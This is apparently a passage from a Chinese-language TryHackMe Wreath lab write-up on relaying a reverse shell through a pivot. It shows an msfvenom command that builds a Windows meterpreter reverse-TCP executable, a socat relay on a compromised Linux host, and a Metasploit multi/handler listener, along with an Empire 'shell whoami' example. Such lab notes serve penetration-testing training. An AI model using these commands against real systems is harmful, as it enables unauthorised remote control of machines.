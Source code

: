 > Using the help command for guidance: in Empire CLI, how would we run the whoami command inside an agent?

> shell whoami




## 转发rev shell流量到msf

编译一个exe,ip和端口写linux转发机器的
```
┌──(root💀kali)-[~/tryhackme/Wreath]
└─# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.200.101.200 LPORT=15123 -f exe >exp.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 354 bytes
Final size of exe file: 73802 bytes

```


在linux机器用socat做一个rev shell转发
```
[root@prod-serv tmp]# ./socat-max TCP4-LISTEN:15123,FORK  TCP4:10.50.102.104:443
```


kali设置监听
```
msf6 exploit(multi/handler) > options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.50.102.104    yes       The listen address (an interface may be specified)
   LPORT     443              yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target


```
